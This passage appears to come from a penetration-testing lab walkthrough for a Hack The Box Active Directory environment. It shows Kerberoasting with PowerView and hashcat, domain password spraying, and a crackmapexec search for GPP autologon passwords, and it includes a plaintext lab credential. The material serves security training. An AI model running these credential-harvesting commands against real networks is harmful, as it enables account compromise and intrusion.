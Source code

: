 


                        //Kerberoasting

        
        To cover all our bases, let's check if there are any Kerberoastable users. We can do this via Proxychains using GetUserSPNs.py or PowerView. In our RDP session, we'll load PowerView and enumerate Service Principal Name (SPN) accounts.


        PS C:\DotNetNuke\Portals\0> Import-Module .\PowerView.ps1
        
        PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN |Select samaccountname

        There are quite a few. Let's export these to a CSV file for offline processing.

        
        PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation


        We can download this file via the RDP drive redirection we set up earlier: copy .\ilfreight_spns.csv \\Tsclient\Home. Open up the .csv file using LibreOffice Calc or Excel and pull out the hashes and add them to a file. We can now run them through Hashcat to see if we can crack any and, if so, if they are for privileged accounts.

        Gkaranikas@htb[/htb]$ hashcat -m 13100 ilfreight_spns /usr/share/wordlists/rockyou.txt



        One hash cracks, but checking in BloodHound, the account does not seem to be helpful to us. We can still note down another finding for Weak Kerberos Authentication Configuration (Kerberoasting) and move on.





                        <!-- //Password Spraying -->

        
        Another lateral movement technique worth exploring is Password Spraying. We can use DomainPasswordSpray.ps1 or the Windows version of Kerbrute from the DEV01 host or use Kerbrute from our attack host via Proxychains (all worth playing around with).

        PS C:\DotNetNuke\Portals\0> Invoke-DomainPasswordSpray -Password Welcome1

        We find a valid password for two more users, but neither has interesting access. It's still worth noting down a finding for Weak Active Directory Passwords allowed and moving on.



                        //Misc Techniques
        
        Let's try a few more things to cover all our bases. We can search the SYSVOL share for Registry.xml files that may contain passwords for users configured with autologon via Group Policy.


        Gkaranikas@htb[/htb]$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin

        This doesn't turn up anything useful. Moving on, we can search for passwords in user Description fields in AD, which is not overly common, but we still see it from time to time (I have even seen Domain and Enterprise Admin account passwords here!).
